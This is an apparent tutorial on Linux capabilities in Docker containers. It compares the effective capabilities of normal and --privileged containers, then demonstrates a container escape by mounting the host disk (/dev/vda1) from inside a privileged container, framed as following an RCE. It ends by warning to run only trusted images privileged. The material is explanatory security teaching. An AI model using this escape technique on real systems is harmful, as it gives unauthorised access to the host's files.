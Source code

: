 # Privileged containers

It turns out that the old binary era of being `root` and `nonroot` on Linux systems had ended.
There is a Linux feature called Capabilities that allow us to fine grain capabilities to users.

Even though inside containers we are root we don't have all of the capabilities that a root user on the host has.
Docker gives us a set of capabilities that deems safe to use inside containers (safe being not being able to escape to host for example).

When using `--privileged` flag we instruct Docker to give us all of the capabilities.

1. Check capabilities inside of a non privileged container

```bash
root@ubuntu-s-1vcpu-2gb-fra1-01:~# docker run --rm -it alpine sh
/ # cat /proc/1/status | grep -i eff
CapEff:	00000000a80425fb
/ #
```

We are checking `/proc/1/status` pseudo file to give us more information about process. Because we are inside container we know that we have
isolated process ID and the parent process of the container is `1`.

On a host where we have `capsh` installed we can use it to decode this hex string.

```bash
root@ubuntu-s-1vcpu-2gb-fra1-01:~# capsh --decode=00000000a80425fb
0x00000000a80425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
```

2. Check capabilities inside of a privileged container

```bash
root@ubuntu-s-1vcpu-2gb-fra1-01:~# docker run --rm -it --privileged alpine sh
/ # cat /proc/1/status | grep -i eff
CapEff:	000001ffffffffff
```

Decode:

```bash
root@ubuntu-s-1vcpu-2gb-fra1-01:~# capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
```

3. There is a saying that a privileged container **IS NOT** a container.

And they are right. We can easily escape to host.

Spawn privileged container (let's imagine we gained control to it through some RCE vulnerability):

```bash
root@ubuntu-s-1vcpu-2gb-fra1-01:~# docker run --rm -it --privileged alpine sh
/ #
```

Because I'm privileged I have access to devices.

```bash
/ # ls /dev
autofs           loop-control     ptmx             tty15            tty32            tty5             ttyS0            ttyS26           vcs2             vda
btrfs-control    loop0            pts              tty16            tty33            tty50            ttyS1            ttyS27           vcs3             vda1
bus              loop1            random           tty17            tty34            tty51            ttyS10           ttyS28           vcs4             vda14
...
```

So I can find host drive and mount it.

```bash
/ # mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/6YXLGS3DHZGOH3K2JXLDHUO7CX:/var/lib/docker/overlay2/l/MVOIBV5JYU7UC4CPDI4E22L2RX,upperdir=/var/lib/docker/overlay2/50ec948973cde0cc185e508728e6520958d915b639c767fd65e5630fad942663/diff,workdir=/var/lib/docker/overlay2/50ec948973cde0cc185e508728e6520958d915b639c767fd65e5630fad942663/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup type cgroup2 (rw,nosuid,nodev,noexec,relatime,nsdelegate,memory_recursiveprot)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k,inode64)
/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/vda1 on /etc/hostname type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/vda1 on /etc/hosts type ext4 (rw,relatime,discard,errors=remount-ro)
devpts on /dev/console type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
```

```bash
mkdir /tmp/hostroot
mount /dev/vda1 /tmp/hostroot
/ # ls /tmp/hostroot/
bin         dev         home        lib32       libx32      media       opt         root        sbin        srv         tmp         var
boot        etc         lib         lib64       lost+found  mnt         proc        run         snap        sys         usr
```

And now I have access to host file system.

## Run only trusted images with --privileged flag.
